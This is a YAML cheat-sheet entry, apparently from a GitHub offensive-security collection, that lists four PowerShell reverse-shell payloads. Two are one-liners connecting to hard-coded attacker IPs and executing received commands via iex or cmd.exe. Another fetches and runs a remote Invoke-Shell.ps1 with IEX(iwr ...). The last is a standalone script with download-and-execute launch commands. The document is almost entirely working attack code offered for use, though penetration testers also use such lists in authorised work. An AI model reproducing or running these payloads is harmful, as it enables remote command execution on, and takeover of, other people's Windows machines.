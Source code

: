 ```yaml
---
functions:
  shell:
    - description: Powershell reverse shell (example 1)
      code: |
        powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.149',8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    - description: Powershell reverse shell (example 2)
      code: |
        start /B powershell -c "$a='10.10.14.20';$b=80;$c=New-Object system.net.sockets.tcpclient;$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) {    start-sleep -m 100;    if ($osread.IsCompleted -and $osread.Result -ne 0) {      $r=$os.BaseStream.EndRead($osread);      $s.Write($ob,0,$r);      $s.Flush();      $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);    }    if ($esread.IsCompleted -and $esread.Result -ne 0) {      $r=$es.BaseStream.EndRead($esread);      $s.Write($eb,0,$r);      $s.Flush();      $esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);    }    if ($s.DataAvailable) {      $r=$s.Read($nb,0,$nb.Length);      if ($r -lt 1) {          break;      } else {          $str=$e.GetString($nb,0,$r);          $is.write($str);      }    }    if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) {        break;    }    if ($p.ExitCode -ne $null) {        break;    }}"
    - description: Powershell reverse shell (example 3)
      code: |
        start-job IEX(iwr http://192.168.119.149:8000/Invoke-Shell.ps1 -UseBasicParsing); Invoke-Shell 192.168.119.149 8889
    - description: Powershell reverse shell (script )
      code: |
        ps-shell.ps1:
        $ip="10.10.14.20";$port=445;$client = New-Object System.Net.Sockets.TCPClient($ip,$port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

        From cmd.exe context:
        start /B powershell -c "iex(iwr http://10.10.14.20/ps-shell.ps1)"
        Or:
        iex(iwr http://10.10.14.20/ps-shell.ps1)
resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/Invoke-Shell.ps1    
---
```

